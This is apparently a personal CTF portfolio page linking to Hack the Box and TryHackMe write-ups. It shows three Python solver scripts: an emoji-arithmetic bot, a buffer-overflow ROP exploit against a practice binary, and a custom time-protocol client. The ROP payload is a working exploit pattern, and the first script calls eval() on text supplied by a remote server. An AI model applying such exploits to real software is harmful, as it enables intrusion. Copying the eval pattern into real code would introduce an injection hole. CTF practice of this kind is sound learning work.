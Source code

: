 ```yaml
---
layout: default
---            
```

|<script src="https://tryhackme.com/badge/60599"></script> |<script src="https://www.hackthebox.eu/badge/277042"></script>|

[Hack the Box Write Ups](./htb.md)
[Try Hack Me Write Ups](./thm.md)

### What about emoji?

```py
#!/usr/bin/env python3

from pwn import *
import re

r = remote("46.101.22.121",30437)
r.recv()
r.sendline("1")
d = r.recv().decode()
e = r.recv().decode()
print(d)
print(e)

emojis = {
"🌞" : re.findall("🌞 -> (\d+)",d)[0],
"🍨" : re.findall("🍨 -> (\d+)",e)[0],
"❌" : re.findall("❌ -> (\d+)",e)[0],
"🍪" : re.findall("🍪 -> (\d+)",e)[0],
"🔥" : re.findall("🔥 -> (\d+)",e)[0],
"⛔" : re.findall("⛔ -> (\d+)",e)[0],
"🍧" : re.findall("🍧 -> (\d+)",e)[0],
"👺" : re.findall("👺 -> (\d+)",e)[0],
"👾" : re.findall("👾 -> (\d+)",e)[0],
"🦄" : re.findall("🦄 -> (\d+)",e)[0]
}

print(str(emojis))

r.sendline("2")

for i in range(1,501):
	ques = r.recv().decode()

	print(ques)

	equation = ''
	for c in ques:
		if c in emojis:
			equation = equation + ' ' + emojis[c]
		elif c in ['*','-','+','-']:
			equation = equation + ' ' + c

	res = eval(equation)
	print(res)
	r.sendline(str(res))

flag = r.recv().decode()

print(flag)
```
### What about BOF?

```py
#!/usr/bin/env python3
from pwn import *

#p = process('./easyrop')
p = remote('hsg1.superhero1.com', 9002)
e = ELF('./easyrop')

ckpt1 = p64(e.symbols.checkpoint1) # finds address
ckpt2 = p64(e.symbols.checkpoint2)
secret = p64(e.symbols.secret)
#print(ckpt1, ckpt2)

# start interaction
# padding 
padding = b'A' *0x68  # 96 + 8 
payload = padding
payload += ckpt1
payload += ckpt2
payload += secret

p.sendline(payload)
data = p.recvall()
print(data)

```

### What about NTP you ask?
```py
#!/usr/bin/env python3
import struct
import socket
import time
import datetime

#  lib8time.cityinthe.cloud port 2038
# Create a UDP socket
sock = socket.socket(socket.AF_INET, socket.SOCK_DGRAM)

# Bind the socket to the port
server_address = ('lib8time.cityinthe.cloud', 2038)

# Calculate current time
t = int(time.time())

# Create the packet data
packet = struct.pack('>hiqq',4919,1,t,int((time.time() % 1)*1000000))

# Send packet and get response
sock.sendto(packet, server_address)
data, address = sock.recvfrom(4096)

# Unpack the response
r = struct.unpack('>hiqqqq',bytes(data))
print(r)

# Parse the response
ct_s = r[2]
st_s = r[4]
ct_m = r[3]
st_m = r[5]

# Parse the time and convert to readable format in UTC
client_time = time.strftime('%Y-%m-%d %H:%M:%S', time.gmtime(ct_s))
server_time = time.strftime('%Y-%m-%d %H:%M:%S', time.gmtime(st_s))
print("Client time now (UTC):{}".format(client_time))
print("Server time now (UTC):{}".format(server_time))

# Calcualte the difference in Hour
print("Hours difference: {}".format((st_s-ct_s)/3600))
```

<script src="https://platform.linkedin.com/badges/js/profile.js" async defer type="text/javascript"></script>
	<div class="badge-base LI-profile-badge" data-locale="en_US" data-size="medium" data-theme="dark" data-type="VERTICAL" data-vanity="cyber-consultant" data-version="v1">
	<a class="badge-base__link LI-simple-link" href="https://www.linkedin.com/in/cyber-consultant?trk=profile-badge">M Harrison</a>
	</div>
